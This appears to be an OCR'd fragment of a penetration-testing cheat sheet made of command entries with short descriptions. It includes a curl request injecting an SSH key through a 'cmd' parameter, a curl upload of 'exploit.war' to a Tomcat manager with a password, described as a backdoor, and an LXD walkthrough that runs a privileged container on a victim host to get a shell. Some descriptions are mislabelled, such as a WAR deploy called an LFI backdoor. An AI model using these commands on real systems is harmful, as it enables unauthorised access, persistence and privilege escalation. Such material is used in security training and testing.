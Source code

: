 ### `curl -G ‘http://example.com/file.php’ –data-urlencode ‘cmd=echo ssh-rsa AA………..’`

- **Short Description:** Send information with the GET method in cURL.
- **Tactics and Techniques:** Send Information with cURL

### `curl --user ‘tomcat:$3cureP4s5w0rd123!’ --upload-file exploit.war “http://megahosting.com:8080/manager/text/deploy?path=/exploit.war”`

- **Short Description:** Create a backdoor with LFI vulnerability in Java.
- **Tactics and Techniques:** Create Backdoor with LFI Vulnerability in Java

## File Commands

### `diff file file2`

- **Short Description:** Compare two files.
- **Tactics and Techniques:** Compare Files


### Increasing Access with LXD

#### Attacker's Host

1. Clone the LXD Alpine builder repository:
    
    
    
    `git clone https://github.com/saghul/lxd-alpine-builder.git`
    
2. Build the Alpine Linux image:
    
    
    
    `./build-alpine`
    

#### Victim's Host

3. Download the built image to the victim host.
    
4. Import the downloaded image with an alias "attacker":
    
    
    
    `lxc image import ./alpine-v3.12-x86_64-20200621_2005.tar.gz --alias attacker`
    
5. Initialize a new LXD container named "tester" using the "attacker" alias and enable security privileges:
    
    
    
    `lxc init attacker tester -c security.privileged=true`
    
6. Execute a shell within the "tester" container:
    
    
    
    `lxc exec tester /bin/sh`
    